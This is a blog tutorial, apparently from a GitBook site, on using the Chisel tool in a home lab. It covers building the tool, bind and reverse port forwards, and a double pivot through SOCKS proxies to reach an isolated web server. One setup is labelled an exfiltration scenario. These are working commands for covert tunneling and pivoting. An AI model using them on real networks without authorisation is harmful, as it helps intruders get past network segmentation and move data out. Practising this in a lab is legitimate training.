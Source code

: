 ```yaml
---
title: Using Chisel
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2021-12-25 11:33:00 +0200
categories: [Blogging]
tags: [Tunneling, Pivoting]
math: true
mermaid: true
---
```

**Reverse and Bind Proxy using Chisel // There is no exploitation involved!**

# Lab Setup <a href="#lab-setup" id="lab-setup"></a>

![](https://gblobscdn.gitbook.com/assets%2F-MIxcYhWyGCoV7j2xCX\_%2F-MMMa\_l\_gM83qoxbcIyz%2F-MMMakUk24zIFBd6Wnmp%2Fimage.png?alt=media\&token=aba8c540-8cb6-4ee8-a89e-12acd5c029b6)

```
Kali = 192.168.40.214 
Win7 / Pivot#1 Interface#1 = 192.168.40.217 
Win7 / Pivot#1 Interface#2 = 192.168.118.176 
Linux Server / Pivot#2 interface#1 = 192.168.118.132 
Linux Server / Pivot#2 Interface #2 = 192.168.50.129 
WebServer = 192.168.50.128
```

# Download and Installation

Chisel can be downloaded here: [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

Simply follow instructions there to download chisel - you will also need GO. Move to the directory where you've downloaded the chisel.

Build it without debug

```
go build -ldflags="-s -w" chisel
```

Compress it even further

```
upx brute chisel
```

You don't have to build it for Windows if you won't be using/pivoting windows boxes but here is how it can be done:

```
#x86 version
env GOOS=windows GOARCH=386 go build -o chisel-x86.exe -ldflags "-s -w"

#x64 version
env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w" 

#(optional - compress it)
upx brute ./chisel-x86.exe
upx brute ./chisel-x64.exe
```

# Bind Proxy

**(Exfiltration Scenario - send data through Pivot#1 (Win7) to Kali where there is no direct access from e.g. corporate network)\* This is however just one use case**

![](<../.gitbook/assets/image (103).png>)

So, lets begin setting server on kali:

```
chisel server --host 192.168.40.214 -p 4000
```

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8WqG6f-2T5jMQS%2F0.png?alt=media)

You can see above on the right that Port 4000 has been opened on the chisel Server (on Kali) and is listening. This is common to both reverse and bind Proxy.

Listener will be opened on the Windows7/Pivot#1 Machine

```
chisel-x86.exe client 192.168.40.214:4000 8001:127.0.0.1:9001
```

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8XzWmxbpSN0wWc%2F1.png?alt=media)

Now here is important to understand what the second part of command _8001:127.0.0.1:9001_ actually means. Port 8001 has been opened on the Client (Win7 Machine) and is listening on ALL Interfaces (0.0.0.0). Traffic will be relayed to 127.0.0.1:9001 (on the Server - which is Kali)

I am now able to send anything to Port 8001 on ANY Interface on the Client/Win7 (192.168.40.217 OR 192.168.118.132 OR 127.0.0.1) on port 8001. This will get piped through the Chisel tunnel to 127.0.0.1 on Kali to port

All that is needed to do is, set a listener on Kali on port 9001

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8ZcKU5NbKrOOP1%2F3.png?alt=media)

I am now able to send anything to Kali over Win7 tunnel

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8\_zyQpD5b43EdJ%2F4.png?alt=media)

# **Reverse** <a href="#reverse" id="reverse"></a>

## Simple Reverse Port Forward / Single Pivot

The biggest difference compared to bind proxy is where the listener will reside at, and that is on the server. The tunnel connection will also get initated from the victim/Pivot#1/win7.

Lets start chisel server on Kali

```
chisel server --host 192.168.40.214 -p 4000 --reverse
```

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8dtSSrSmxKRMpt%2F8.png?alt=media)

... and client on the Win7 which will be 1st Pivot machine. The second part of command _R:4001:192.168.118.132:80_ also defines where the connection will be proxied to which is 192.168.118.132:80 (Linux Server / Pivot#2). (R: we have to define R for reverse connections)

```
chisel 192.168.40.214:4000 R:4001:192.168.118.132:80
```

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8ecIh9POKFORbY%2F9.png?alt=media)

The listener is now on Kali - when using Bind Proxy the listener will be on the Client (in my case on Win7/Pivot#1)

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8fXRT8DuO96fis%2F10.png?alt=media)

Test - i am able to reach Linux Server on Port 80 from Kali through Win7/Pivot#1

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8gPpsqXNDLWeZZ%2F11.png?alt=media)

## Double Pivot using SOCKS

In order to reach Webserver which is 2 "hops" away i need to pivot through Win7/Pivot#1 and Linux Server/Pivot#2. (i have chisel on both already - there is no Exploitation involved).&#x20;

!Important! - If you can get first pivot setup correctly, setting the 2nd one is basically doing exactly the same BUT keep in mind that you either need more than 1 session (if you're using SSH / Shell / meterpreter/ whatever) or send chisel processes to background (for example: start-process on window or ampersand in linux).

Lets start reverse server with adding --socks5

```
chisel server --host 192.168.40.214 -p 4000 --socks5 --reverse
```

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8h0jxHH1Sgh-Wk%2F12.png?alt=media)

On Win7/Pivot#1 we have to specify the local listener (which will be on Kali). I used Port 3080

Pivot#1

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8iqzpCGR9U6\_us%2F13.png?alt=media)

And start a server just like we did on Kali

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8j6kU6B6V4CuOb%2F14.png?alt=media)

On Pivot#2/Linux Server we start a client but its important to pay attention to listeners interface (192.168.118.176 is Interface on Pivot#1 and will be reachable after Kali connects through the first socks proxy).

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8knIa45CB68qdw%2F15.png?alt=media)

(again, the listener and its interface will be defined on the client which means - i have to define listener for socky proxy on Pivot#2 for Pivot#1).

Lets add following two proxys to /etc/proxychains on Kali

```
socks5 127.0.0.1 3080
socks5 192.168.118.176 7080
```

And i can reach webserver on 192.168.50.128:80

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8lTfSWQ-YCnjuv%2F16.png?alt=media)

```
|S-chain|-<>-127.0.0.1:3080-<>-192.168.118.176:7080-<><>-192.168.50.128:80-<><>-OK
```

## **Using Reverse to download chisel on Pivot#2 from Kali (no direct access)**

Lets say i want to download something from the Kali (for example the chisel itself) over Pivot#1 which is in my case Win7.

Now the roles over server/client are swaped so Pivot#1 (Win7) will be server and Kali will be set as a client.

```
chisel-x86.exe server -p 5000 --reverse # on Pivot#1 (Win7)
chisel client 192.168.40.217:5000 4001:127.0.0.1:9001 # on Kali
```

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8acP58DRWhkTfd%2F5.png?alt=media)

Connection from Linux Server will now go through Pivot#1 (Win7) and if i set a webserver on Kali on port 8000 the file will be downloaded

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8bg7QccLJhY5zQ%2F6.png?alt=media)

![](https://gblobscdn.gitbook.com/assets%2Fos-cybersec%2F-MM5rry18v5IEAyTMx07%2F-MM5tW8cMiCcf3naph9x%2F7.png?alt=media)

# Summary <a href="#summary" id="summary"></a>

Chisel is a great tool no doubts on that but the message i'd like to put out there is: Practice Pivoting in your own lab because it is easier to troubleshoot if somethings does not work as expected. I used 3 VMs (doesnt really matter if Linux or Windows).&#x20;
